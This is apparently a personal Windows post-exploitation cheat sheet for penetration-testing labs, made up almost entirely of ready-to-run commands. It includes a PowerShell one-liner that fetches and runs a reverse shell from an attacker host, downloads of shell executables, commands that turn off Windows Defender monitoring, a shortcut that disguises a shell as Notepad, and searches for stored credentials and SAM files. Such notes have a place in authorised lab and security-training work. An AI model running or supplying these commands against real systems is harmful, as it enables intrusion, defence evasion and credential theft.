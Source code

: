 Download Files
```Powershell
Invoke-WebRequest -Uri http://10.10.14.176:8000/PowerView.ps1 -OutFile PowerView.ps1

curl -o example.txt http://example.com/file.txt

certutil.exe -urlcache -split -f http://<ip>/file file_save

copy \\10.10.14.2\SHARE\6shell.exe

powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.21.174.231:8000/shell.exe','shell.exe')"

```

Sync time with DCs
```
timedatectl set-ntp 0

ntpdate $IP
```

Get Processes
```powershell
Get-Process | Format-Table -Property Name, Id, CPU, WorkingSet -AutoSize

Get-Process -Name "notepad"
```

List Network Connections
```powershell
netstat -aon

arp -a

ipconfig /all

route print
```

Connect to a machine with admin perms
```
Enter-PSSession -Computername <computername>
```

Shortcuts
```Powershell
$targetPath = "C:\xampp\htdocs\5shell.exe"
$shortcutPath = "C:\Common Applications\Notepad.lnk"
$shell = New-Object -ComObject WScript.Shell
$shortcut = $shell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = $targetPath
$shortcut.Save()
```

### Quick Loot?
```
findstr /si password *.txt *.ini *.config
```
### Who Am I?
```powershell
whoami
echo %username%

# Check Groups
whoami /groups

# Check Privileges
whoami /priv

whoami /all
```

### Where Am I?
```powershell
hostname
echo %hostname%
```
### Anyone home?
Local users
```powershell
net user s

Get-ADUser <username> -Properties MemberOf
```

Domain users
```powershell
net users /domain
```
### What am I part of?
Local groups
```powershell
net groups
```

Domain groups
```powershell
net groups /domain
```
### What is this place?
```powershell
systeminfo

systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

wmic qfe
```
### Is it fancy?
Both should be the same for ease of exploitation, if either is 32-bit then try to gain a 64-bit shell.  
Use PowerShell
```powershell
[environment]::Is64BitOperatingSystem
[environment]::Is64BitProcess
```
### Am I tied up?
Check LanguageMode. FullLanguage is nicer to have.  
```powershell
$ExecutionContext.SessionState.LanguageMode
```
### Anything reachable?
```powershell
Get-AppLockerPolicy -Effective
Get-AppLockerPolicy -Effective | select -ExpandedProperty RuleCollections

wmic logicaldisk get caption
```
### What does the inside look like?
Look for interesting services
```powershell
netstat -aon
```
### Leave me alone
Do you have admin privs?  

Disable Windows Defender real time monitoring
```powershell
Get-MpComputerStatus

# List excluded directories
Get-MpPreference | Select-Object -ExpandProperty ExclusionPath

Set-MpPreference -DisableRealTimeMonitoring $true	
```

Disable Windows Defender scanning for all files downloaded
```powershell
Set-MpPreference -DisableIOAVProtection $true	
```

### Sniff for Credentials
Common creds location, always in plaintext
```powershell
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogin"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

Look for interesting files that may contain creds
```powershell
dir /s SAM
dir /s SYSTEM
dir /s Unattend.xml
```

### Look Around
```powershell
dir /R

# Alternate Data Streams are commonly used for storing hidden data or metadata
Get-Content "C:\Users\Administrator\Desktop\hm.txt:root.txt"
more < hm.txt:root.txt:$DATA

#Starting, Restarting and Stopping services in Powershell
Start-Service <service>
Stop-Service <service>
Restart-Service <service>

#Powershell History
Get-History
(Get-PSReadlineOption).HistorySavePath #displays the path of consoleHost_history.txt
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

#Viewing installed execuatbles
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

#Process Information
Get-Process
Get-Process | Select ProcessName,Path

#Sensitive info in XAMPP Directory
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue #this for a specific user

#Service Information
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```